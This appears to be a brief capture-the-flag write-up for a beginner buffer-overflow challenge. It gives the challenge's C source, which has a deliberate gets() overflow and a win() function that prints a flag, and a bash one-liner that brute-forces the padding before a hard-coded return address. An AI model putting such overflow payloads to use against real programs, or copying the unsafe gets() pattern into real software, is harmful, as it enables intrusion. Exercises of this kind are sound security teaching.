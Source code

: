 # BufferOverflow #1

<img src="bufo1.png"><br>
<img src="bufo1a.png"><br>

```
#include <stdio.h>

void win()
{
	printf("You win!\n");
	char buf[256];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL)
	{
		puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
	}
	else
	{
		fgets(buf, sizeof(buf), f);
		printf("flag: %s\n", buf);
	}
}

void vuln()
{
	char buf[16];
	printf("Type something>");
	gets(buf);
	printf("You typed %s!\n", buf);
}

int main()
{
	/* Disable buffering on stdout */
	setvbuf(stdout, NULL, _IONBF, 0);

	vuln();
	return 0;
}
```


<br>


```
for i in {1..50}; do echo $i; python -c "print 'A'*$i + '\xb2\x91\x04\x08'"| ./bufover-1 ;done
```

<br>


